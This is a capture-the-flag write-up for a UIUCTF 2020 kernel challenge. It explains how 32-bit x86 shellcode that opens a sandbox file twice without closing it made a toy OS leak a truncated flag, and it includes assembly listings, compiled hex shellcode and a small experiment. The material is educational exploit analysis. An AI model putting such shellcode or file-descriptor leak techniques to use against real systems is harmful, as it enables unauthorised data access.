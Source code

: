 # How a buggy program solves a 400 point challenge
**Writeup Author:** Kevin He (Username `trinary-exploitation`)  
**Category:** Kernel Exploitation
> ## Freaky_File_Descriptors (13 solves, 400 points)
> How does the OS know what bytes to give you when you call read? How does it keep track of how far you've read into a file?
> 
> Find an exploit that lets you read past the end of /sandb0x/freaky_fds.txt and see what was truncated!

To start, I ran `cat /sandb0x/freaky_fds.txt` to see if the file is suspicious, I got:
> \[Devlog\]: On second thought, keeping this info stored in plaintext is too dangerous. I'm going to redact the secure parts.  
> 
> User: sandb0x  
> Password: pwny
> 
> Super important flag for the Freaky File Descriptors challenge:

And nothing more was printed to the screen.

## The memory initialization myth

Since the challenge suggests that there is truncated data after the file, I initially thought it would be as easy as requesting more bytes to read than the file's length, so I wrote this piece of shellcode (this will be referred to as _Shellcode A_ later on):

**Shellcode A**
```asm
.arch x86
.bits 32
.org 0x0804e0a0 ; If the address binexec will run your program is not this value, REPLACE with the address you get. This line sets the address for the first instruction so that labels work correctly
.equ sizebuf 500 ; Buffer size of 500, which is longer than the length of the file

mov eax, 2 ; Syscall number for OPEN
mov ebx, filename ; filename="/sandb0x/freaky_fds.txt"
int 0x80 ; fd = OPEN(filename), fd is the file descriptor for this file
mov ebx, eax ; fd from OPEN
mov eax, 4 ; Syscall number for READ
mov ecx, buffer ; buffer for READ
mov edx, sizebuf ; max number of bytes to READ = buffer size
int 0x80 ; READ(fd, buffer, sizebuf)
mov eax, 5 ; Syscall number for WRITE
mov ebx, 0 ; File descriptor 0 is standard output (stdout): write to terminal screen
mov ecx, buffer ; write contents of buffer (containing read data) to stdout
mov edx, sizebuf ; max number of bytes to write = buffer size
int 0x80 ; WRITE(0, buffer, sizebuf)
ret

filename:
.string "/sandb0x/freaky_fds.txt"
buffer:
; the buffer, uses uninitialized data after the shellcode, hopefully it won't overflow the memory region allocated by binexec
```

Compiling this with `rasm2 -f <filename>` gives the following shellcode:
```
b802000000bbd6e00408cd8089c3b804000000b9eee00408baf4010000cd80b805000000bb00000000b9eee00408baf4010000cd80c32f73616e646230782f667265616b795f6664732e74787400
```

But using this shellcode, I got the same result obtained from `cat`, except for some padding spaces (which are actually uninitialized unprintable characters) at the end:

![Nothing is read past the end of the file](assets/freaky-fd-fail.png)

I thought that the reason it failed was because part of the buffer after the shellcode was not writable by the process so `READ` had ignored it for security reasons, so I tried again but this time initializing the content after label `buffer:` with underscores, which can be done simply by appending 500 `5f`'s (ASCII code for underscore) to the end of the shellcode (will be referred to as _Shellcode B_). To speed up this process (avoid manual typing), I used some PowerShell scripts which can be found in [`scripts/`](https://github.com/kevin-he-01/uiuctf2020-writeup/tree/master/scripts) in this repository.

After bombarding the screen with `5f`, I cannot believe my eyes:

![The flag with underscores after it](assets/freaky-fd.png)

## Why does this exploit work?

After the CTF is over, I wanted to figure out why this trick works. As I experimented with the `READ` syscall, I found that it refuses to read more characters than the file has by returning fewer characters than requested in the `buf_size` argument. So if that is the case, this exploit would not have worked. I was also very skeptical of whether memory initialization causes `READ` to dump the flag.

In addition, I forgot to close the file descriptor opened by `OPEN` syscall, so I wondered if by running the shellcode &mdash; and thus calling `OPEN` &mdash; multiple times will also contribute to getting the flag.

### A simple experiment

To test out which factor caused `READ` to reveal the flag, I designed a simple controlled experiment with 3 trials:  
- Trial A: Running _Shellcode A_ (the original shellcode _without_ `5f` padding) **twice** in binexec
    - This eliminates memory initialization as a confounding variable
- Trial B: Running _Shellcode B_ (the shellcode _with_ `5f` padding) **once** in binexec
    - This eliminates running `OPEN` multiple times as a confounding variable
- Trial C (Control): Running _Shellcode C_ (shown below) twice. Shellcode C is based on shellcode A but fixes the handle leak bug in shellcode A by calling `CLOSE(fd)` before it exits.

**Shellcode C**
<!-- cSpell:ignore sizebuf -->
```asm
.arch x86
.bits 32
.org 0x0804e0a0 ; If the address binexec will run your program is not this value, REPLACE with the address you get. This line sets the address for the first instruction so that labels work correctly
.equ sizebuf 500 ; Buffer size of 500, which is longer than the length of the file

mov eax, 2 ; Syscall number for OPEN
mov ebx, filename ; filename="/sandb0x/freaky_fds.txt"
int 0x80 ; fd = OPEN(filename), fd is the file descriptor for this file
mov edi, eax ; store fd into edi, which won't be clobbered in syscalls
mov eax, 4 ; Syscall number for READ
mov ebx, edi ; fd from OPEN
mov ecx, buffer ; buffer for READ
mov edx, sizebuf ; max number of bytes to READ = buffer size
int 0x80 ; READ(fd, buffer, sizebuf)
mov eax, 5 ; Syscall number for WRITE
mov ebx, 0 ; File descriptor 0 is standard output (stdout): write to terminal screen
mov ecx, buffer ; write contents of buffer (containing read data) to stdout
mov edx, sizebuf ; max number of bytes to write = buffer size
int 0x80 ; WRITE(0, buffer, sizebuf)
mov eax, 3 ; syscall number for CLOSE
mov ebx, edi ; stored fd from OPEN
int 0x80 ; CLOSE(fd)
ret

filename:
.string "/sandb0x/freaky_fds.txt"
buffer:
; the buffer, uses uninitialized data after the shellcode, hopefully it won't overflow the memory region allocated by binexec
```

To eliminate the current system state as a variable, I rebooted the whole system (Ctrl-X) before running each trial.

### The results

Trial A (running _Shellcode A_ twice) yields the exact same result as if I ran _Shellcode A_ and then _Shellcode B_ as I did while the CTF is running. This concludes that calling `OPEN` twice alone is enough to make `READ` leak the flag, but does memory initialization alone also do the job?

Running trial B (running _Shellcode B_ once), which initialize memory with `5f`s, gives me no flag at all, with underscores in the redacted part. This shows that memory initialization plays no role at all and filling `5f`s as I did during the CTF is completely superfluous.

Trial C does not give me the flag, even though I ran _Shellcode C_ twice, this shows that properly closing a file before opening it again in the same process will not trigger the bug that causes the flag to be leaked.

## End Notes
There are 13 solves to this 400 point challenge (compared to only 5 solves in Kernel_Memory_Leak which is 300 points), which seems quite surprising. Even the contest managers imaged that people might be utilizing a bug that would qualify as a Small Oops. My explanation for this solve number is that most people, like me, wrote a buggy program that did not properly close a file descriptor and ran it again in the same `binexec` session after making unnecessary modifications (or no modifications at all). So future CTF makers have to be careful in designing problems that are difficult to solve not only by valid programs but also by buggy programs.
